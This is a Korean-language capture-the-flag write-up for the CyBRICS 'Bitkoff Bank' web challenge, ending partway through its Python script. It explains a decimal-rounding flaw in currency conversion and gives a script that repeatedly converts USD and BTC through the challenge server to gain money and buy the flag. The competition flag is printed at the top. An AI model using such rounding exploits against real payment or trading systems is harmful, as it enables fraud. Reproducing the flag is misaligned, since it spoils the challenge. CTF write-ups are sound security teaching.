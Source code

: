 flag : `cybrics{0dbceabb65128d70f92b70f9d63f277ceac7515c501ece4916d0f3aa65457872}`

# Bitkoff Bank (Web, Easy, 50 pts)

> Need more money! Need the flag!  
> http://45.77.201.191/index.php  
> Mirror: http://95.179.148.72:8083/index.php  

사이트에 들어가면 5가지 행동을 할 수 있다. `채굴`, `자동채굴기 구입`, `flag 구입`, `매수`, `매도`가 있다. 채굴과 같은 방법을 통해 USD 1$를 만들어서 flag를 구입해야하는데, 자동 채굴은 답도 없이 느리다. 이것저것 해보면 알게되겠지만 매수와 매도를 할 때, 소수점 관리가 잘 되지 않아서 차이가 발생한다. 이 차이는 `채굴` 기능을 이용할 때보다 더 큰 이익을 얻을 수 있다. 이를 이용해서 아래와 같이 또다른 개념의 채굴을 하는 코드를 작성했다.
``` python
import requests

url = "http://95.179.148.72:8083/index.php"
cookie = {
        'name' : 'tori',
        'password' : 'tori',
        'session' : 'c54515c3-0775-41c6-bd03-3fb892e3b3c9'
}
data = {}

def usd2btc(usd):
    data['from_currency'] = 'usd'
    data['to_currency'] = 'btc'
    data['amount'] = usd
    return run()

def btc2usd(btc):
    data['from_currency'] = 'btc'
    data['to_currency'] = 'usd'
    data['amount'] = btc
    return run()

def run():
    return requests.post(url, data=data, cookies=cookie)

def getWallet():
    global data
    wallet = { 'btc':0, 'usd':0 }
    data = {}
    content = run().text
    s = content.index('Your BTC')
    d = content[s:].index('</b>')
    wallet['btc'] = float(content[s+13:s + d])
    s = content.index('Your USD')
    d = content[s:].index('</b>')
    wallet['usd'] = float(content[s+13:s + d])
    return wallet

def getFlag():
    global data
    data = { 'flag' : 1 }
    return run()

if __name__ == '__main__':
    while True:
        wallet = getWallet()
        if wallet['usd'] > 1:
            print("[*] Get 1$")
            flag = getFlag().text
            s = flag.index('cybrics{')
            d = s + flag[s:].index('}') + 1
```